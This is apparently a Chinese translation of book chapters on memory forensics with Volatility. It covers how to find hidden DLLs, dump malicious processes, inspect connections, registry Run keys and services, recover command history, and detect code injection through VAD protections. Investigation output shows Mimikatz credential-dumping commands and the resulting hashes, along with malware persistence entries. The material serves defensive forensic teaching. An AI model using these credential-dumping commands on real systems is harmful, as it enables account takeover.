dlllist插件从一个名为进程环境块(PEB)的结构中获取所加载模块的信息。如果你回想一下第8章，代码注入和挂钩，当谈到进程内存组件时，我提到过PEB结构驻留在进程内存中(在用户空间中)。PEB包含关于可执行进程在何处加载的元数据信息、它在磁盘上的完整路径以及关于加载的模块(可执行和dll)的信息。dlllist插件查找每个进程的PEB结构并获取上述信息。那么问题来了，如何找到PEB的结构?_EPROCESS结构有一个名为Peb的字段，该字段包含指向Peb的指针。这意味着一旦插件找到_EPROCESS结构，它就可以找到PEB。需要记住的一点是，_EPROCESS驻留在内核内存(内核空间)中，而PEB驻留在进程内存(用户空间)中。

要在调试器中获得PEB的地址，可以使用!process扩展命令，它显示_EPROCESS结构的地址。它还指定PEB的地址。从下面的输出中，你可以看到explorer.exe进程的PEB在它的进程内存地址7ffd3000，它的_EPROCESS结构在0x877ced28(在它的内核内存中):
```
kd> !process 0 0
**** NT ACTIVE PROCESS DUMP ****
.........
PROCESS 877cb4a8 SessionId: 1 Cid: 05f0 Peb: 7ffdd000 ParentCid: 0360
       DirBase: beb47300 ObjectTable: 99e54a08 HandleCount: 70.
Image: dwm.exe
PROCESS 877ced28 SessionId: 1 Cid: 0600 Peb: 7ffd3000 ParentCid: 05e8
       DirBase: beb47320 ObjectTable: 99ee5890 HandleCount: 766.
Image: explorer.exe
```
另一种确定PEB地址的方法是使用display type (dt)命令。你可以通过检查EPROCESS结构中的PEB字段找到explorer.exe进程的PEB地址，如下所示:
```

kd> dt nt!_EPROCESS 877ced28 [REMOVED]
+0x168 Session : 0x8f44e000 Void
+0x16c ImageFileName : [15] "explorer.exe" [REMOVED]
+0x1a8 Peb : 0x7ffd3000 _PEB
+0x1ac PrefetchTrace : _EX_FAST_REF
```
现在你知道如何找到PEB，那么现在，让我们试着理解PEB包含什么样的信息。要获得给定流程的可读的PEB摘要，首先需要切换到要检查其PEB的流程的上下文。这可以使用.process扩展名命令来完成。这个命令接受_EPROCESS结构的地址。下面的命令将当前进程的上下文设置为explorer.exe进程:
```
kd> .process 877ced28
Implicit process is now 877ced28
```
然后，您可以使用!peb扩展命令后跟peb地址。在下面的输出中，为了简洁起见，部分信息被截断。ImageBaseAddress字段指定在内存中加载进程可执行文件(explorer.exe)的地址。PEB还包含另一个称为Ldr结构(类型为_PEB_LDR_DATA)的结构，它维护三个双链接列表，它们是InLoadOrderModuleList, InMemoryOrderModuleList，和InInitializationOrderModuleList。这三个双链接列表中的每一个都包含关于模块(进程可执行文件和dll)的信息。通过遍历这些双链接的模块，可以获得关于模块的信息
列表。InLoadOrderModuleList按模块的顺序组织模块
InMemoryOrderModuleList按照它们在进程内存中的顺序组织模块，而InInitializationOrderModuleList按照它们的DllMain函数执行的顺序组织模块:


```
kd> !peb 0x7ffd3000 PEB at 7ffd3000
InheritedAddressSpace: No ReadImageFileExecOptions: No BeingDebugged: No ImageBaseAddress: 000b0000
Ldr 77dc8880
Ldr.Initialized: Yes Ldr.InInitializationOrderModuleList: 00531f98 . 03d3b558 Ldr.InLoadOrderModuleList: 00531f08 . 03d3b548 Ldr.InMemoryOrderModuleList: 00531f10 . 03d3b550 [REMOVED]
```
换句话说，所有三个PEB列表都包含关于已加载模块的信息，比如基址、大小、与模块关联的完整路径，等等。要记住的重要一点是，InInitializationOrderModuleList将不包含关于进程可执行文件的信息，因为与dll相比，可执行文件的初始化是不同的。

为了帮助您更好地理解，下面的图表以Explorer.exe为例(该概念也类似于其他进程)。当Explorer.exe被执行时，它的进程可执行文件被加载到进程内存中的某个地址(比方说0xb0000)，带有PAGE_EXECUTE_WRITECOPY (WCX)保护。相关的dll也被加载到进程内存中。进程内存还包括PEB结构，它包含了explorer.exe在内存中的加载位置(基址)的元数据信息。PEB中的Ldr结构维持着三个双链表;每个元素都是一个结构(类型为_LDR_DATA_TABLE_ENTRY)，它包含关于加载模块的信息(基址、完整路径等)。dlllist插件依赖于遍历InLoadOrderModuleList来获取模块的信息:



从这三个PEB列表中获取模块信息的问题是，它们容易受到DKOM攻击。所有三个PEB列表都驻留在用户空间中，这意味着攻击者可以将恶意DLL加载到进程的地址空间中，并可以从一个或所有PEB列表中断开恶意DLL的链接，以隐藏依赖于遍历这些列表的工具。为了克服这个问题，我们可以使用另一个名为ldrmodules的插件。
#### 6.1 使用ldrmodule检测隐藏的DLL
ldrmodules插件将来自三个PEB列表(在进程内存中)的模块信息与来自内核内存中称为VADs(虚拟地址描述符)的数据结构的信息进行比较。内存管理器使用vad跟踪进程内存中保留(或空闲)的虚拟地址。VAD是一种二叉树结构，它存储关于进程内存中几乎连续的内存区域的信息。对于每个进程，内存管理器维护一组VAD，每个VAD节点描述一个几乎连续的内存区域。如果进程内存区域包含一个内存映射文件(如可执行文件、DLL)，那么VAD节点存储有关其基址、文件路径和内存保护的信息。下面的示例应该有助于您理解这个概念。在下面的截图中，内核空间中的一个VAD节点描述了关于进程可执行文件(explorer.exe)加载位置、它的完整路径和内存保护的信息。类似地，其他VAD节点将描述进程的内存范围，包括那些包含映射的可执行映像，如dll:


为了获得模块的信息，ldrmodules插件枚举所有包含映射可执行镜像的VAD节点，并将结果与三个PEB列表进行比较，以确定是否存在差异。下面是感染了TDSS rootkit(我们在前面看到的)的内存映像进程的模块列表。你可以看到ldrmodules插件能够识别一个名为TDSSoiqh.dll的恶意DLL，它隐藏了所有三个PEB列表(InLoad, InInit和InMem)。svchost.exe的InInit值设置为False，但其是可执行的，如前所述:
```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 ldrmodules -p 880 Volatility Foundation Volatility Framework 2.6
Pid Process Base InLoad InInit InMem MappedPath
--- ----------- -------- ----- ------- ----- ---------------------------- 880 svchost.exe 0x10000000 False False False \WINDOWS\system32\TDSSoiqh.dll 880 svchost.exe 0x01000000 True False True \WINDOWS\system32\svchost.exe 880 svchost.exe 0x76d30000 True True True \WINDOWS\system32\wmi.dll
   880 svchost.exe 0x76f60000 True  True  True  \WINDOWS\system32\wldap32.dll
   [REMOVED]
```
### 7. 转储可执行文件和DLL
在您识别出恶意进程或DLL之后，您可能希望转储它以便进一步调查(例如提取字符串、运行yara规则、反汇编或使用杀毒软件进行扫描)。要将进程可执行文件从内存转储到磁盘，可以使用procdump插件。要转储进程可执行文件，您需要知道它的进程ID或物理偏移量。在下面的例子中，一个内存镜像感染了Perseus恶意软件(之前在讨论pslist插件时提到)，
procdump插件用于转储其恶意进程的可执行文件svchost.exe (pid 3832)。使用-D(——dump-dir)选项，可以指定要转储可执行文件的目录名称。转储文件以进程的pid命名，如executable.PID.exe:
```

$ python vol.py -f perseus.vmem --profile=Win7SP1x86 procdump -p 3832 -D dump/
Volatility Foundation Volatility Framework 2.6
Process(V) ImageBase Name Result
   ---------- ---------- ------------ -----------------------
   0x8503f0e8 0x00b90000 svchost..exe OK: executable.3832.exe
$ cd dump
$ file executable.3832.exe
executable.3832.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
 
```

要转储具有物理偏移量的进程，可以使用-o(——offset)选项，如果希望从内存转储隐藏进程，该选项很有用。在下面的例子中，一个内存映像感染了prolaco恶意软件(在前面讨论时已经讨论过了psscan插件)，隐藏进程使用其物理偏移量转储。物理偏移量由psscan插件确定。你也可以从psxview插件获取物理偏移量。当使用procdump插件时，如果你没有指定-p(——pid)或-o(——offset)选项，那么它将转储系统上运行的所有活动进程的进程可执行文件:
```
$ python vol.py -f infected.vmem --profile=WinXPSP3x86 psscan Volatility Foundation Volatility Framework 2.6
Offset(P) Name PID PPID PDB Time created ------------------ ------- ---- ---- ---------- -------------------- [REMOVED]
0x00000000016ba360 nvid.exe 1700 1660 0x08440320 2014-10-17 09:16:10
$ python vol.py -f infected.vmem --profile=WinXPSP3x86 procdump -o 0x00000000016ba360 -D dump/
Volatility Foundation Volatility Framework 2.6
Process(V) ImageBase Name Result
   ---------- ---------- -------- -----------------------
   0x814ba360 0x00400000 nvid.exe OK: executable.1700.exe
```
类似于进程可执行文件，您可以使用dlldump插件将恶意DLL转储到磁盘。要转储DLL，您需要指定加载DLL的进程的进程ID (-p选项)，以及DLL的base地址，使用-b(——base)选项。您可以从dlllist或ldrmodules输出中获得DLL的基址。在下面这个例子中，一个被Ghost RAT病毒感染的内存映像(我们在讨论dlllist插件时提到过)，通过使用dlldump插件来转储svchos.exe (pid 880)进程加载的恶意DLL:
```
$ python vol.py -f ghost.vmem --profile=Win7SP1x86 dlllist -p 880 Volatility Foundation Volatility Framework 2.6 ************************************************************************ svchost.exe pid: 880
   Command line : C:\Windows\system32\svchost.exe -k netsvcs
Base Size LoadCount Path
---------- ------ -------- ------
[REMOVED]
0x10000000 0x26000 0x1 c:\users\test\application data\acd systems\acdsee\imageik.ddf
$ python vol.py -f ghost.vmem --profile=Win7SP1x86 dlldump -p 880 -b 0x10000000 -D dump/
Volatility Foundation Volatility Framework 2.6
 Name       Module Base    Module Name       Result
   ---------- ------------ ---------------- --------------------------
   svchost.exe 0x010000000  imageik.ddf      module.880.ea13030.10000000.dll
```

### 8. 列出网络连接和套接字
大多数恶意程序执行一些网络活动，或者下载额外的组件，从攻击者那里接收命令，窃取数据，或者在系统上创建一个远程后门。检查网络活动将帮助您确定被感染系统上的恶意软件的网络操作。在许多情况下，将在受感染系统上运行的进程与网络上检测到的活动关联起来是很有用的。要确定pre-vista系统(如Windows XP和2003)上的活动网络连接，可以使用连接插件。下面的命令显示了一个使用连接插件打印来自被BlackEnergy恶意软件感染的内存转储的活动连接的示例。从下面的输出中，可以看到进程ID为756的进程负责端口443上的C2通信。运行pslist插件后，你可以知道756的pid与svchost.exe进程相关联:
```
$ python vol.py -f be3.vmem --profile=WinXPSP3x86 connections Volatility Foundation Volatility Framework 2.6
Offset(V) Local Address Remote Address Pid ---------- ------------------ -------------- ------- 0x81549748 192.168.1.100:1037 X.X.32.230:443 756
$ python vol.py -f be3.vmem --profile=WinXPSP3x86 pslist -p 756 Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
---------- ----------- --- ---- ---- ---- ---- ------ -------------------- 0x8185a808 svchost.exe 756 580 22 442 0 0 2016-01-13 18:38:10
```
另一个插件，你可以用来列出的网络连接在vista之前的系统是connscan。它使用池标记扫描方法来确定连接。因此，它还可以检测终止的连接。在下面的例子中，内存映像感染了TDL3 rootkit，连接插件不返回任何结果，而connscan插件显示网络连接。这并不一定意味着连接是隐藏的，它只是意味着当获取内存映像时，网络连接不是活动的(或终止的):
```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 connections Volatility Foundation Volatility Framework 2.6
Offset(V) Local Address Remote Address Pid
---------- ------------- -------------- ----
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 connscan Volatility Foundation Volatility Framework 2.6
Offset(P)  Local Address
---------- ------------------
0x093812b0 192.168.1.100:1032
Remote Address    Pid
Proto Local Address   Foreign Address
TCPv4 192.168.1.60:139    0.0.0.0:0
UDPv4 192.168.1.60:137    *:*
UDPv4 0.0.0.0:0           *:*
State
LISTENING
Pid Owner
   4 System
---------------
XX.XXX.92.121:80   880

```
有时，您可能希望获得有关打开的套接字及其相关进程的信息。在vista之前的系统上，你可以通过socket和sockscan插件获取开放端口的信息。socket插件打印打开的socket列表，sockscan插件使用池标记扫描方法。因此，它可以检测已经关闭的端口。

在Vista和以后的系统(如Windows 7)，你可以使用netscan插件来显示网络连接和套接字。netscan插件使用池标记扫描方法，类似于sockscan和connscan插件。在下面的例子中，内存映像被Darkcomet RAT病毒感染，netscan插件在81端口上显示C2通信，该通信已被恶意进程dmt.exe (pid 3768)造成:


### 9. 检查注册表
从取证的角度来看，注册表可以提供关于恶意软件上下文的有价值的信息。在第7章“恶意软件功能和持久性”中讨论持久性方法时，您看到了恶意程序如何在注册表中添加条目以在重新启动时存活下来。除了持久性之外，恶意软件还使用注册表来存储配置数据、加密密钥等。要打印注册表键、子键及其值，可以使用printkey插件，通过使用-K(——key)参数提供所需的注册表键路径。在下面的例子中，一个感染了Xtreme Rat病毒的内存映像中，它在Run注册表项中添加了恶意的可执行文件C:\Windows\InstallDir\system.exe。因此，恶意的可执行文件将在每次系统启动时被执行:
```
$ python vol.py -f xrat.vmem --profile=Win7SP1x86 printkey -K "Microsoft\Windows\CurrentVersion\Run"
Volatility Foundation Volatility Framework 2.6
Legend: (S) = Stable (V) = Volatile
   ----------------------------
   Registry: \SystemRoot\System32\Config\SOFTWARE
   Key name: Run (S)
   Last updated: 2018-04-22 06:36:43 UTC+0000
Subkeys:
Values:
REG_SZ VMware User Process : (S) "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
REG_EXPAND_SZ HKLM : (S) C:\Windows\InstallDir\system.exe

```
在下面的例子中，Darkcomet RAT在注册表中添加了一个条目，通过rundll32.exe加载它的恶意DLL (mph.DLL):
```
$ python vol.py -f darkcomet.vmem --profile=Win7SP1x86 printkey -K "Software\Microsoft\Windows\CurrentVersion\Run"
Volatility Foundation Volatility Framework 2.6
Legend: (S) = Stable (V) = Volatile
   ----------------------------
   Registry: \??\C:\Users\Administrator\ntuser.dat
   Key name: Run (S)
   Last updated: 2016-09-23 10:01:53 UTC+0000
   Subkeys:
   Values:
   REG_SZ Adobe cleanup : (S) rundll32.exe "C:\Users\Administrator\Local Settings\Application Data\Adobe updater\mph.dll", StartProt ----------------------------
```
还有一些其他的注册表键以二进制形式存储有价值的信息，这对司法调查人员可能有很大的价值。诸如userassist、shellbags和shimcache等Volatility插件解析这些包含二进制数据的注册表键，并以可读性强得多的格式显示信息。

Userassist注册表项包含用户在系统上执行的程序列表，以及程序运行的时间。要打印userassist注册信息，你可以使用挥发的userassist插件，如下所示。在下面的例子中，一个可疑的命名为可执行文件(info.doc.exe)被执行从E:\驱动器(可能是USB驱动器)在2018-04-30 06:42:37:

```
$ python vol.py -f inf.vmem --profile=Win7SP1x86 userassist 
Volatility Foundation Volatility Framework 2.6 ----------------------------
Registry: \??\C:\Users\test\ntuser.dat
[REMOVED]
REG_BINARY E:\info.doc.exe :
Count: 1
Focus Count: 0
Time Focused: 0:00:00.500000
Last updated: 2018-04-30 06:42:37 UTC+0000 Raw Data:
   0x00000000 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00
   0x00000010 00 00 80 bf 00 00 80 bf 00 00 80 bf 00 00 80 bf
```
> shimcache和shellbags插件在调查恶意软件事件时非常有用。shimcache插件对于证明系统中存在恶意软件以及它运行的时间很有帮助。shellbags插件可以提供关于访问文件、文件夹、外部存储设备和网络资源的信息。

### 10. nvestigating服务
在第7章，恶意软件的功能和持久性中，我们研究了攻击者如何通过安装或修改现有的服务来在系统上持久存在。在本节中，我们将重点讨论如何从内存映像研究服务。要从内存映像中列出服务及其信息，比如显示名称、服务类型和启动类型，可以使用svcscan插件。在下面的例子中，恶意软件创建了一个WIN32_OWN_PROCESS类型的服务，显示名称和服务名称为svchost。从二进制路径可以看出，svchost.exe是恶意的，因为它运行在非标准路径C:\Windows，而不是C:\Windows\System32:

```
$ python vol.py -f svc.vmem --profile=Win7SP1x86 svcscan 

Volatility Foundation Volatility Framework 2.6 [REMOVED]
Offset: 0x58e660
Order: 396
Start: SERVICE_AUTO_START
Process ID: 4080
Service Name: svchost
Display Name: svchost
Service Type: SERVICE_WIN32_OWN_PROCESS Service State: SERVICE_RUNNING
Binary Path: C:\Windows\svchost.exe

```
对于实现为DLL(服务DLL)的服务，您可以通过向svccan插件传递-v(——verbose)选项来显示服务DLL(或内核驱动程序)的完整路径。-v选项用于打印与服务相关的详细信息。下面是一个以DLL形式运行服务的恶意软件的例子。服务状态设置为SERVICE_START_PENDING，启动类型设置为SERVICE_AUTO_START，这告诉你这个服务还没有启动，会在系统启动时自动启动:
```
$ python vol.py -f svc.vmem --profile=Win7SP1x86 svcscan [REMOVED]
Offset: 0x5903a8
Order: 396
Start: SERVICE_AUTO_START
Process ID: -
Service Name: FastUserSwitchingCompatibility
Display Name: FastUserSwitchingCompatibility
Service Type: SERVICE_WIN32_SHARE_PROCESS
Service State: SERVICE_START_PENDING
Binary Path: -
ServiceDll: C:\Windows\system32\FastUserSwitchingCompatibilityex.dll ImagePath: %SystemRoot%\System32\svchost.exe -k netsvcs
```
一些恶意程序会劫持未使用或禁用的现有服务，以持久化在系统上。这种恶意软件的一个例子是BlackEnergy，它取代了名为aliide的合法内核驱动程序。Sys在磁盘上。这个内核驱动程序与一个名为aliide的服务相关联。在替换驱动程序之后，它会修改与aliide服务相关联的注册表项，并将其设置为自动启动(也就是说，当系统启动时，服务会自动启动)。很难发现此类攻击。检测此类修改的一种方法是保留一个干净内存映像中的所有服务的列表，并将其与可疑映像中的服务列表进行比较，以查找任何修改。下面是清除内存映像中aliide服务的服务配置。合法的aliide服务被设置为按需启动(需要手动启动)，服务处于停止状态:
```
$ python vol.py -f win7_clean.vmem --profile=Win7SP1x64 svcscan Offset: 0x871c30
Order: 11
Start: SERVICE_DEMAND_START
Process ID: -
Service Name: aliide
Display Name: aliide
Service Type: SERVICE_KERNEL_DRIVER Service State: SERVICE_STOPPED Binary Path: -

```
以下是感染了BlackEnergy的内存映像的svcscan输出。修改完成后，aliide服务被设置为“autostart”(系统启动时会自动启动)，且仍处于“stopped”状态。这意味着重新启动系统后，服务将自动启动并加载恶意aliide。系统驱动程序。关于这个BlackEnergy释放器的详细分析，请参阅作者的博客文章https://cysinfo.com/blackout-memory-analysis-of-blackenergy-big-dropper/:
```
$ python vol.py -f be3_big.vmem --profile=Win7SP1x64 svcscan 
Offset: 0x881d30
Order: 12
Start: SERVICE_AUTO_START
Process ID: -
Service Name: aliide
Display Name: aliide
Service Type: SERVICE_KERNEL_DRIVER Service State: SERVICE_STOPPED Binary Path: -
```
### 11. 提取命令历史
影响系统后,攻击者可以执行各种命令在命令shell列举用户,组,和共享你的网络,或攻击者可能转移等工具Mimikatz (https://github.com/gentilkiwi/mimikatz)组成系统和执行它转储Windows凭据。Mimikatz是一个开源工具，由Benjamin Delpy于2011年编写。它是从Windows系统收集凭证的最流行工具之一。Mimikatz以不同的方式发布，比如编译版(https://github.com/gentilkiwi/mimikatz)，并且是PowerSploit (https://github.com/PowerShellMafia/PowerSploit)和PowerShell Empire (https://github.com/EmpireProject/Empire)等PowerShell模块的一部分。

命令历史可以提供有关攻击者在受损系统上活动的有价值的信息。通过检查命令历史，您可以确定诸如已执行的命令、调用的程序以及攻击者访问的文件和文件夹等信息。两个Volatility插件cmdscan和consoles可以从内存映像中提取命令历史记录。这些插件从csrs.exe (Windows 7之前)或conhost.exe (Windows 7及更高版本)进程中提取命令历史。

> 要了解这些插件的详细工作原理，请阅读《内存取证的艺术》一书或阅读理查德·史蒂文斯和Eoghan Casey的研究论文《从物理内存中提取Windows命令行细节》(http://www.dfrws.org/2010/proceedings/2010-307.pdf)。

cmdscan插件会列出cmd.exe所执行的命令。下面的示例深入了解系统上的窃取凭据活动。从cmdscan输出中，您可以看到通过命令shell (cmd.exe)调用了名称为net.exe的应用程序。从net.exe中提取的命令中，可以看出命令特权::debug和sekurlsa::logonpasswords与Mimikatz相关联。在这种情况下，Mimikatz应用程序被重命名为net.exe:

```
$ python vol.py -f mim.vmem --profile=Win7SP1x64 cmdscan
[REMOVED]
CommandProcess: conhost.exe Pid: 2772
CommandHistory: 0x29ea40 Application: cmd.exe Flags: Allocated, Reset CommandCount: 2 LastAdded: 1 LastDisplayed: 1
FirstCommand: 0 CommandCountMax: 50 ProcessHandle: 0x5c
Cmd #0 @ 0x29d610: cd \
Cmd #1 @ 0x27b920: cmd.exe /c %temp%\net.exe Cmd #15 @ 0x260158: )
Cmd #16 @ 0x29d3b0: )
[REMOVED]
**************************************************
CommandProcess: conhost.exe Pid: 2772
CommandHistory: 0x29f080 Application: net.exe Flags: Allocated, Reset CommandCount: 2 LastAdded: 1 LastDisplayed: 1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0xd4
Cmd #0 @ 0x27ea70: privilege::debug
Cmd #1 @ 0x29b320: sekurlsa::logonpasswords
Cmd #23 @ 0x260158: )
Cmd #24 @ 0x29ec20: '

```
cmdscan插件会显示攻击者执行的命令。要了解命令是否成功，可以使用控制台插件。运行控制台插件后，可以看到net.exe确实是一个Mimikatz应用程序，为了转储凭证，使用Mimikatz shell执行了Mimkatz命令。从输出中，您可以知道凭据已成功转储，密码已以明文形式检索:
```
$ python vol.py -f mim.vmem --profile=Win7SP1x64 consoles
----
CommandHistory: 0x29ea40 Application: cmd.exe Flags: Allocated, Reset CommandCount: 2 LastAdded: 1 LastDisplayed: 1
FirstCommand: 0 CommandCountMax: 50 ProcessHandle: 0x5c
Cmd #0 at 0x29d610: cd \
Cmd #1 at 0x27b920: cmd.exe /c %temp%\net.exe ----
   Screen 0x280ef0 X:80 Y:300
   Dump:
   Microsoft Windows [Version 6.1.7600]
   Copyright (c) 2009 Microsoft Corporation. All rights reserved.
   C:\Windows\system32>cd \
   C:\>cmd.exe /c %temp%\net.exe
[REMOVED]
   mimikatz # privilege::debug
   Privilege '20' OK
   mimikatz # sekurlsa::logonpasswords
   Authentication Id : 0 ; 269689 (00000000:00041d79)
   Session : Interactive from 1
   User Name : test
   Domain : PC
   Logon Server : PC
   Logon Time : 5/4/2018 10:00:59 AM
   SID : S-1-5-21-1752268255-3385687637-2219068913-1000
msv :
 [00000003] Primary
 * Username : test
 * Domain : PC
 * LM : 0b5e35e143b092c3e02e0f3aaa0f5959
 * NTLM : 2f87e7dcda37749436f914ae8e4cfe5f
 * SHA1 : 7696c82d16a0c107a3aba1478df60e543d9742f1
tspkg :
 * Username : test
 * Domain : PC
 * Password : cleartext
wdigest :
 * Username : test
 * Domain : PC
 * Password : cleartext
kerberos :
 * Username : test
 * Domain : PC
 * Password : cleartext
```
> 在Windows 8.1和更高版本上，您可能无法使用Mimikatz以明文形式转储密码，但是，Mimikatz为攻击者提供了各种功能。攻击者可以使用提取的NTLM散列来模拟帐户。关于Mimikatz的详细信息以及如何使用它来提取Windows凭据，请阅读https://adsecurity.org/?page_id=1821。

### 总结
内存取证是一项伟大的技术，从计算机的内存寻找和提取司法证据。除了使用内存取证进行恶意软件调查之外，您还可以将其作为恶意软件分析的一部分，以获得关于恶意软件行为和特征的额外信息。本章涵盖了不同的Volatility插件，这些插件使你能够了解在组成的系统上发生的事件，并提供对恶意软件活动的洞察。在下一章中，我们将使用更多的volatile插件来确定高级恶意软件的功能，并且您将了解如何使用这些插件来提取司法证据。


## 11. 使用内存取证检测高级恶意软件
在前一章中，我们研究了不同的Volatility插件，它们有助于从内存映像中提取有价值的信息。在本章中，我们将继续我们的内存取证之旅，我们将看到更多的插件，这些插件将帮助你从被高级恶意软件感染的内存映像中提取取证痕迹，这些恶意软件使用了隐身和隐藏技术。在下一节中，我们将重点介绍使用内存取证来检测代码注入技术。下一节将讨论在第8章“代码注入和挂钩”中已经涉及到的一些概念，所以强烈建议在阅读下一节之前阅读这一章。
### 1. 检测代码注入
回想一下第8章的代码注入和挂钩，代码注入是一种将恶意代码(如EXE、DLL或shellcode)注入合法进程内存并在合法进程的上下文中执行恶意代码的技术。为了向远程进程注入代码，恶意程序通常会分配一个具有读、写和执行权限的内存(PAGE_EXECUTE_READWRITE)，然后将代码注入到远程进程分配的内存中。要检测注入远程进程的代码，可以根据内存保护和内存内容查找可疑的内存范围。一个引人注目的问题是，什么是可疑的内存范围以及如何获得有关进程内存范围的信息?如果你回想一下前一章(在使用ldrmodules检测隐藏DLL部分)，Windows在内核空间中维护一个名为虚拟地址描述符(VADs)的二叉树结构，每个VAD节点描述进程内存中一个几乎连续的内存区域。如果进程内存区域包含一个内存映射文件(如可执行文件、DLL等)，那么其中一个VAD节点存储有关其基址、文件路径和内存保护的信息。下面的描述不是VAD的准确表示，但它应该有助于您理解这个概念。在下面的截图中，内核空间中的一个VAD节点描述了关于进程可执行文件(explorer.exe)加载位置、它的完整路径和内存保护的信息。类似地，其他VAD节点将描述进程内存范围，包括那些包含映射的可执行映像(如DLL)的进程。这意味着VAD可以用来确定每个相邻进程内存范围的内存保护，它还可以给出包含内存映射镜像文件(如可执行文件或DLL)的内存区域的信息:


### 1.1 通过采用信息
要从内存映像中获取VAD信息，可以使用vadinfo Volatility插件。下面以vadinfo为例，使用进程ID (pid 2180)显示explorer.exe进程的内存区域。在下面的输出中，内核内存中地址为0x8724d718的第一个VAD节点描述了进程内存中的内存范围0x00db0000-0x0102ffff及其内存保护PAGE_EXECUTE_WRITECOPY。由于第一个节点描述的是一个包含内存映射的可执行映像(explorer.exe)的内存范围，因此它还提供了磁盘上的完整路径。第二个节点0x8723fb50描述了0x004b0000-0x004effff的内存范围，它不包含任何内存映射文件。类似地，地址0x8723fb78的第三个节点显示进程内存范围的信息0x77690,000-0x777cbfff，其中包含ntdll.dll及其内存保护:
```
$ python vol.py -f win7.vmem --profile=Win7SP1x86 vadinfo -p 2180
   Volatility Foundation Volatility Framework 2.6
VAD node @ 0x8724d718 Start 0x00db0000 End 0x0102ffff Tag Vadm Flags: CommitCharge: 4, Protection: 7, VadType: 2
Protection: PAGE_EXECUTE_WRITECOPY
Vad Type: VadImageMap
   ControlArea @87240008 Segment 82135000
   NumberOfSectionReferences: 1 NumberOfPfnReferences: 215
   NumberOfMappedViews: 1 NumberOfUserReferences: 2
   Control Flags: Accessed: 1, File: 1, Image: 1
FileObject @8723f8c0, Name: \Device\HarddiskVolume1\Windows\explorer.exe First prototype PTE: 82135030 Last contiguous PTE: fffffffc
Flags2: Inherit: 1, LongVad: 1
VAD node @ 0x8723fb50 Start 0x004b0000 End 0x004effff Tag VadS Flags: CommitCharge: 43, PrivateMemory: 1, Protection: 4 Protection: PAGE_READWRITE
Vad Type: VadNone
VAD node @ 0x8723fb78 Start 0x77690000 End 0x777cbfff Tag Vad Flags: CommitCharge: 9, Protection: 7, VadType: 2 Protection: PAGE_EXECUTE_WRITECOPY
Vad Type: VadImageMap
ControlArea @8634b790 Segment 899fc008 NumberOfSectionReferences: 2 NumberOfPfnReferences: 223 NumberOfMappedViews: 40 NumberOfUserReferences: 42
Control Flags: Accessed: 1, File: 1, Image: 1
FileObject @8634bc38, Name: \Device\HarddiskVolume1\Windows\System32\ntdll.dll
First prototype PTE: 899fc038 Last contiguous PTE: fffffffc Flags2: Inherit: 1
[REMOVED]
```
> 要使用Windbg内核调试器获取进程的VAD信息，首先需要使用.process命令和_EPROCESS结构的地址将上下文切换到所需的进程。切换上下文后，使用!vad扩展命令显示进程的内存区域。

### 1.2 使用VAD检测注入代码
需要注意的重要一点是，当一个可执行映像(如EXE或DLL)通常加载到内存中时，该内存区域会被操作系统赋予一个PAGE_EXECUTE_WRITECOPY(WCX)的内存保护。一个应用程序通常不允许使用像VirtualAllocEx这样的API调用来分配带有PAGE_EXECUTE_WRITECOPY保护的内存。换句话说，如果攻击者想要注入一个PE文件(如EXE或DLL)或shell代码，那么内存
需要分配一个PAGE_EXECUTE_READWRITE(RWX)保护。通常，很少有内存范围具有PAGE_EXECUTE_READWRITE的内存保护。具有PAGE_EXECUTE_READWRITE保护的内存范围并不总是恶意的，因为程序可以为合法目的使用该保护分配内存。为了检测代码注入，我们可以查找包含PAGE_EXECUTE_READWRITE内存保护的内存范围，并检查和验证其内容，以确认是否存在恶意。为了帮助您理解这一点，让我们以一个被SpyEye感染的内存映像为例。此恶意软件将代码注入到合法的explorer.exe进程(pid 1608)。vadinfo插件在explorer.exe进程中显示了两个内存范围，它们对PAGE_EXECUTE_READWRITE有可疑的内存保护:
```
$ python vol.py -f spyeye.vmem --profile=Win7SP1x86 vadinfo -p 1608 [REMOVED]
VAD node @ 0x86fd9ca8 Start 0x03120000 End 0x03124fff Tag VadS Flags: CommitCharge: 5, MemCommit: 1, PrivateMemory: 1, Protection: 6 Protection: PAGE_EXECUTE_READWRITE
   Vad Type: VadNone
VAD node @ 0x86fd0d00 Start 0x03110000 End 0x03110fff Tag VadS Flags: CommitCharge: 1, MemCommit: 1, PrivateMemory: 1, Protection: 6 Protection: PAGE_EXECUTE_READWRITE
Vad Type: VadNone
```
仅从内存保护来看，很难断定前面的内存区域是否包含任何恶意代码。为了确定是否存在恶意代码，我们可以转储这些内存区域的内容。要显示内存区域的内容，可以使用volshell插件。下面的命令在explorer.exe进程(pid 1608)的上下文中调用volshell(一个交互式Python shell)db命令转储给定内存地址的内容。要获取帮助信息并显示所支持的volshell命令，只需在volshell中输入hh()。使用db命令转储内存地址0x03120000(上面vadinfo输出的第一个条目)的内容可以看到PE文件的存在。PAGE_EXECUTE_READWRITE的内存保护和PE文件的存在清楚地表明，可执行文件通常没有加载，而是被注入到explorer.exe进程的地址空间中:
```
$ python vol.py -f spyeye.vmem --profile=Win7SP1x86 volshell -p 1608 Volatility Foundation Volatility Framework 2.6
Current context: explorer.exe @ 0x86eb4780, pid=1608, ppid=1572 DTB=0x1eb1a340
   Python 2.7.13 (default, Jan 19 2017, 14:48:08)
>>> db(0x03120000)
0x03120000 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ.............. 0x03120010 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0x03120020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x03120030 00 00 00 00 00 00 00 00 00 00 00 00 d8 00 00 00 ................ 0x03120040 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 ........!..L.!Th 0x03120050 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f is.program.canno 0x03120060 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 t.be.run.in.DOS. 0x03120070 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00 mode....$.......
```




